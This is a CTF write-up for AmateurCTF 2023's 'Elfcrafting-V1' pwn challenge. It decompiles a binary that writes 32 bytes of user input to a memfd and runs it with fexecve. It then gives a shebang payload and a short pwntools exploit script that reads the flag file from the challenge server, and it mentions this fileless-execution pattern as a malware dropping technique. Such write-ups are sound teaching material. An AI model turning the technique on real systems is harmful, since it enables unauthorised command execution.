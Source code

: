 ```yaml
---
title: AmateurCTF '23 - Pwn - Elfcrafting-V1
date: '2023-07-18'
tags: ['pwn', 'amateurctf23', 'elf']
draft: false
summary: Sending a shebang to let fexecve execute a command for us and get the flag.
---
```


## Challenge Description

How well do you understand the ELF file format?

Author: unvariant

Connection info: `nc amt.rs 31178`

## Solution

We were provided with a binary and a libc file. Let's first analyze the binary using `checksec` and `file`:

![chal](/static/writeups/amateurctf2023/pwn/ec1.png)

Now, let's analyze this binary in ghidra and find all the functions

![chal](/static/writeups/amateurctf2023/pwn/ec1-1.png)

Well, there's only the main function. I've cleaned up the code in ghidra:

```c:main
int main(int param_1,char **param_2,char **param_3) {
  int fd;
  ulong ret;
  long in_FS_OFFSET;
  char buffer [40];
  long canary;

  canary = *(long *)(in_FS_OFFSET + 0x28);
  setbuf(stdout,(char *)0x0);
  setbuf(stderr,(char *)0x0);
  puts("I\'m sure you all enjoy doing shellcode golf problems.");
  puts("But have you ever tried ELF golfing?");
  puts("Have fun!");
  fd = memfd_create("golf",0);
  if (fd < 0) {
    perror("failed to execute fd = memfd_create(\"golf\", 0)");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  ret = read(0,buffer,32);
  if ((int)ret < 0) {
    perror("failed to execute ok = read(0, buffer, 32)");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  printf("read %d bytes from stdin\n",ret & 0xffffffff);
  ret = write(fd,buffer,(long)(int)ret);
  if ((int)ret < 0) {
    perror("failed to execute ok = write(fd, buffer, ok)");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  printf("wrote %d bytes to file\n",ret & 0xffffffff);
  fd = fexecve(fd,param_2,param_3);
  if (fd < 0) {
    perror("failed to execute fexecve(fd, argv, envp)");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return 0;
}
```

This code consists of two functions that I had of heard of before during my malware analysis days and were always deemed pretty `sus`.

- memfd_create
- fexecve

According to the man page's of both:

> memfd_create() creates an anonymous file and returns a file descriptor that refers to it. The file behaves like a regular file, and so can be modified, truncated, memory-mapped, and so on. However, unlike a regular file, it lives in RAM and has a volatile backing storage. Once all references to the file are dropped, it is automatically released.

> fexecve() executes the program referred to by the file descriptor fd with command-line arguments in argv, and with environment variables in envp. The file descriptor fd must refer to an open file. The file offset of the open file is set to the beginning of the file (see lseek(2)) before fexecve() loads the program, so that the program sees the file contents as if reading from the file for the first time.

So, we can see that `memfd_create` creates a file in memory and `fexecve` executes a program with the file descriptor as the first argument. This means that we can create a file in memory and then execute it using `fexecve`. This concept is often used in malware's to execute shellcode in memory and for `stealthy` dropping. There are a lot of posts explaining the concept in detail, I'll link some of them at the end of the [writeup](#references).

Now, the main caveat is, what ever's being written to `golf` fd, is being read from the user, so we control it. The buffer is `32` bytes long meaning we can simply try and pass something into it and it will work. So, let's try and pass a simple `/bin/bash` into it and see what happens:

![chal](/static/writeups/amateurctf2023/pwn/ec1-2.png)

Well, we can see that it's trying to execute the literal string `/bin/bash` which obviously won't work and hence gives the `exec format error` error. So, the fix? We need to pass a `shebang` into the file descriptor as that literal string will actually execute the command that we're trying to execute.

> Shebang is the character sequence consisting of the characters number sign and exclamation mark (#!) at the beginning of a script. It is also called sha-bang, hashbang, pound-bang, or hash-pling.

So, let's try and pass a bash-shebang into the file descriptor and see what happens:

![chal](/static/writeups/amateurctf2023/pwn/ec1-3.png)

Okay, so this proves that we were successful in executing the command. Now, let's try and run `cat` and get the flag:

![chal](/static/writeups/amateurctf2023/pwn/ec1-4.png)

Well, that was pretty straight forward. Let's connect to the remote and get the flag

![chal](/static/writeups/amateurctf2023/pwn/ec1-5.png)

Writing a basic `exploit.py` for this:

```python:exploit.py
from pwn import *
import re

io = remote('amt.rs', 31178)
io.sendlineafter(b"fun!\n", b"#!/bin/cat flag.txt")
buf = io.recvall().decode()
flag = re.findall('amateursCTF{.*?}', buf)[0]
info(f"Flag: {flag}")
```

![chal](/static/writeups/amateurctf2023/pwn/ec1-6.png)

And, we get the flag:
`amateursCTF{i_th1nk_i_f0rg0t_about_sh3bangs_aaaaaargh}`

> NOTE: The challenge heavily used the word `golf` which relates to `binary-golfing`, we'll look into that in elfcrafting-v2

## References

[Linux-Based-IPC-Injection](https://www.aon.com/cyber-solutions/aon_cyber_labs/linux-based-inter-process-code-injection-without-ptrace2/)

[In-Memory-ELF-Execution](https://magisterquis.github.io/2018/03/31/in-memory-only-elf-execution.html)

[Super-Stealthy-Droppers](https://0x00sec.org/t/super-stealthy-droppers/3715)

[Stackoverflow-Question](https://stackoverflow.com/questions/63208333/using-memfd-create-and-fexecve-to-run-elf-from-memory)
